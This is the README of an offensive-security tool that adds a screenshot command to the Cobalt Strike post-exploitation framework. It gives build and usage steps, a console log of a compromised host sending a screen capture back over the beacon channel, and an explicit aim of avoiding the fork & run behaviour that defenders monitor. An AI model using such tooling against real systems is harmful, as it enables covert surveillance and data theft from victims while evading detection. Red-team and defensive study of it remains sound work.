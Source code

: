 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1}
  
```
beacon> screenshot_bof sad.bmp 1
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 5267 bytes
[+] received output:
[*] Screen saved to bitmap
[+] received output:
[*] Downloading bitmap over beacon with filename sad.bmp
[*] started download of sad.bmp
```

3. if downloaded over beacon, BMP can be viewed in Cobalt Strike by right clicking the download and clicking "Render BMP" (credit @BinaryFaultline)
![image](https://user-images.githubusercontent.com/29991665/199232459-0601e5d8-d534-4f05-bde4-c8acf3bd3c12.png)


## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for BMP rendering in aggressorscript, and screenshot callback branch
